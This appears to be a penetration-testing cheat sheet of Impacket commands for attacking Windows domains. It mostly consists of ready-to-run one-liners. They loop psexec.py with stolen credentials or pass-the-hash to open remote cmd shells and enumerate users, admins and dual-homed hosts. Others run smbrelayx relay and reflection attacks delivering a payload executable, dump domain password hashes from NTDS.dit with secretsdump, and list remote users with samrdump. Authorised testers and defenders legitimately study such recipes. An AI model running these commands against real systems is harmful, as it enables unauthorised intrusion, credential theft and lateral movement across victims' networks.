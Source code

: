 ### 1. loop for who is where
```
for host in $(cat userhosts.txt); do echo $host; psexec.py [DOMAIN]/[user]:'[pass]'@$host 'WMIC ComputerSystem Get UserName'; done | tee loggedin-dirty.txt;cat loggedin-dirty.txt | grep -v "^\[" | grep -v "^Impacket" | grep -v "^Trying" | grep -v "SMB SessionError" | sed '/^$/d'
```
**- loop,enumeration,user information,smb,impacket**
#### References:

https://yg.ht
https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 2. loop to look for dual homed hosts
```
for host in $(cat ../nmap/IPs-SMB.txt); do echo $host; psexec.py [DOMAIN]/[user]:'[pass]'@$host "ipconfig"; done | grep "IPv4 Address\|Ethernet adapter\|^[0-9]" | sed '/^$/d' | tee dualhomed-search.txt
```
**- networking,loop,enumeration,impacket**
#### References:

https://yg.ht
https://technet.microsoft.com/en-gb/library/bb490921.aspx
__________
### 3. loop to find local admins
```
for i in `cat smb_up `; do timeout 10 psexec.py [user]:[pass]@$i net localgroup administrators; done | tee local_admin_information
```
**- linux,loop,enumeration,user information,impacket**
#### References:

https://technet.microsoft.com/en-us/library/bb490706.aspx
__________
### 4. connect to mssql
```
/opt/impacket/examples/mssqlclient.py [user]:[pass]@[ip] -port [port]
```
**- linux,mssql,impacket**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 5. loop around and open cmd, Psexecy.py != psexec msf != sysinternals psexec
```
for host in $(cat hosts.txt); do psexec.py [DOM]/[USER]:'[PASS]'@$host "cmd.exe"; done
```
**- linux,loop,impacket,remote command shell**
#### References:

https://yg.ht
https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 6. PSExec with hashses
```
psexec.py -hashes [LM]:[NTLM] [DOM]/[USER]@[TARGET] "cmd.exe"
```
**- linux,impacket,remote command shell,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 7. smbrelay targeted
```
smbrelayx.py -h [TARGETIP] -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 8. smbrelay reflection : note read into http -> smb refelction
```
smbrelayx.py -e [PAYLOAD exe]
```
**- linux,smb,MitM,Windows,impacket,privilege escalation**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 9. Parse the SYSTEM and ntds with impacket
```
secretsdump.py  -hashes LMHASH:NTHASH -system ../SYSTEM -ntds ../ntds.dit local | tee hashes
```
**- Windows,impacket,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 10. List users of the remote system
```
samrdump.py -hashes [LMHASH:NTHASH] [user]:[pass]@[victim]
```
**- linux,enumeration,impacket**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
